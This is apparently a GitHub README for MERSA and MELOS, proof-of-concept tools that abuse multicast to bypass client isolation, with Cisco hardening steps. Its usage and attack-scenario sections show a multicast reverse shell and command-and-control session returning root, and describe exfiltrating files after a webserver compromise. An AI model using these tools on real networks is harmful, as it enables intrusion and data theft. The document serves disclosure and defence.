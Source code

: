 # Multicast Encrypted RSA (MERSA)
```python
     o       .                         o      .
                      .
    .   dBBBBBBBb dBBBBP dBBBBBb  dBBBBP dBBBBBb 
       dB'   'dP dB     dB  dBP dBP'         'BB' 
      dB'dB'dB' dBBP   dBBBBP' 'BBBBb   dBBBPBB'  
     dB'dB'dB' dBP    dBP  BB     dBP  dBP   BB' 
    dB'dB'dB' dBBBBP dBP  dB  dBBBBP' 'dBBBBBB' 
       .                       o                  
                    .                     .    
  .       |      
        --o--     MERSA by 0xFNDH     .
          | Zero eXcuses For Non-Dreamers    o
      o               .  
```

# Overview

 - [Documentation](./README.md#About)
 - [PoC Testing Tools](./PoC/)
 - [Configuration Solutions](./README.md#Patching)
 - [Program Usage Example](./README.md#MELOS-Usage)
 - [Additional Information](./README.md#Additional-Information)

# About

Multicast Encrypted RSA (MERSA) and Multicast Encrypted Low Operations Shell (MELOS) are PoC tools that demonstrate how multicast can be used to undermine network security policies and bypass client isolation/AP isolation restrictions.

Multicast-Tunneling is a vulnerability that is not specific to any vendor and affects networks without the appropriate controls for multicast traffic. It occurs when multicast packets from one network segment can reach restricted servers or devices on another segment. Multicast uses protocols IGMP (L3) or PIM (L2) to route packets and works above the Internet Protocol (IP). This enables a connection between two unintended network segments that can be utilized for lateral movement, aiding in the extraction of information or the control over devices across the network.

Multicast traffic restrictions are often neglected, creating a potential risk that could go unnoticed. The primary goal of MERSA is to highlight the potential vulnerabilities imposed by multicast. The best way to minimize these risks, is to disable it on the restricted interfaces in router's configuration files. In the case that disabling multicast is not feasible, extra measures can be taken to ensure multicast traffic is contained.

# Patching

> Configuring your network with VLANs and proper configurations can mitigate most of the risks associated with multicast.

> Please consult your network administrator prior to making any changes to router configurations. Making unscheduled modifications to the configurations can have adverse effects on the services or devices operating within the network.

**How to disable multicast for Cisco IOS XE 3.2SE+**

> We advise disabling multicast on the interfaces that face public access points. This helps prevent potential issues that may arise from globally disabling multicast. 

```ruby
! Disable all multicast traffic
router(config)# no ip multicast-routing
router(config)# no ip igmp
router(config)# no ip pim

! Disable multicast on a specific interface
router(config)# interface gigabitethernet 0/0/0
router(config-if)# no ip multicast-routing
router(config-if)# no ip igmp
router(config-if)# no ip pim
router(config-if)# end
```

**How to log multicast interactions for Cisco IOS XE Everest 16.6.1+**
> Enabling logs can assist the incident response team in investigating a breach.
```ruby
! Permit a range for allowed multicast channels
router(config)# ip igmp profile 40
router(config-igmp-profile)# permit
router(config-igmp-profile)# range 224.0.0.1 233.255.255.255
router(config-igmp-profile)# exit
router(config)# interface gigabitethernet 0/0/0
router(config-if)# switchport
router(config-if)# ip igmp filter 40
router(config-if)# end

! Dedicate percentage of memory for caching multicast
router(config-mdns)# cache-memory-max 10

! Enable explicit tracking of hosts, groups, and channels for IGMPv3
! When explicit tracking is enabled, the device will use more memory
router(config)# ip multicast-routing
router(config)# interface gigabitethernet 0/0/0
router(config-if)# ip pim sparse-dense-mode 
router(config-if)# ip igmp version 3 
router(config-if)# ip igmp explicit-tracking
router(config-if)# end

```

**How to prevent unnecessary forwarding of multicast packets Cisco IOS XE 3.2SE+**
> Network switches may be unaware of which network devices are part of multicast groups, and which are not. It may end up forwarding multicast traffic to devices that do not need it, which takes up network bandwidth and device processing power, slowing the entire network down. IGMP Snooping allows the switch to follow communications and stop forwarding packets when unnecessary.
```ruby
! Enable IGMP Snooping Globally
router(config)# ip igmp snooping
! Enable IGMP Snooping for a VLAN
router(config)# ip igmp snooping vlan 10

! PIM Sparse Mode (PIM-SM) will reduce the spread of multicast traffic
router(config)# interface gigabitethernet 0/0/0
router(config-if)# ip pim sparse-mode
router(config-if)# end
```

# MELOS Usage

**Start 'MELOS.py -l' reverse shell on target**
> Changing the password will allow MELOS to run on multiple hosts at the same time.

```csharp
$ python3 melos.py --listen --password M3L05

    =[ Awaiting on 224.0.0.251:10020    ]

[10.200.40.5:55000] whoami
[10.200.40.5:55000] ifconfig
[10.200.40.5:55000] ls

```

**Start 'MELOS.py -c' command and control client**
> The password must be the same as the client otherwise the commands will not be decrypted.

```csharp
$ python3 melos.py --cmd --password M3L05

    =[ MELOS C2 224.0.0.251:10050       ]
    
melos@224.0.0.251:10050 $ whoami
     =[ Packet From 10.250.60.15:55000  ]
root
```

# MERSA Usage

```python
$ python3 mersa.py

     =[ Type 'discover' to find hosts.   ]

MERSA(host-id) % discover
[JOIN] 10.200.40.5:55000 has joined.
MERSA(host-id) % 0
MERSA(10.200.40.5) % hi
[MSG-RECV][10.200.40.5:55000] b'hello'

```

# Additional Information

## Attack Scenario
> Imagine that you are in a network that hosts a webserver, but due to network restrictions, you cannot interact with it or observe its traffic. By launching an attack on the external webpage and acquiring code execution, you can utilize MELOS to gain a reverse shell. This will enable you to exfiltrate files and data through the network to your device without being denied by the current policies. The use of MELOS and MERSA will depend on factors such as the network type, current configurations, and the number of security layers in place. However, if remote code execution is already established, it's probable that multicast has been not considered in the network's security measures.

## Tremeris Kynigoskylo (Three Headed Hound)
> MERSA is a less potent iteration of the Tremeris Kynigoskylo (TK-PoC) software developed by 0xFNDH. MERSA poses a significantly lower risk and can be detected through various network intrusion detection systems and network monitoring applications. However, TK-PoC was created to covertly extract files from internal networks without being detected or displaying any unusual activity. MERSA and MELOS are proof-of-concept and do NOT demonstrate the full exploitability of multicast. If your goal is to maximize the effective security of your network, please take into consideration how protocols like multicast move throughout your network.

> This research is designed to raise awareness of the potential risks associated with IGMP and multicast. 

## Resources

> [Cisco Multicast Commands](https://www.cisco.com/c/en/us/td/docs/switches/lan/catalyst3850/software/release/16-12/command_reference/b_1612_3850_cr/ip_multicast_routing_commands.html)

> [Cloudflare IGMP Introduction](https://www.cloudflare.com/learning/network-layer/what-is-igmp/)

> [IANA Multicast Addresses](https://www.iana.org/assignments/multicast-addresses/multicast-addresses.xhtml)
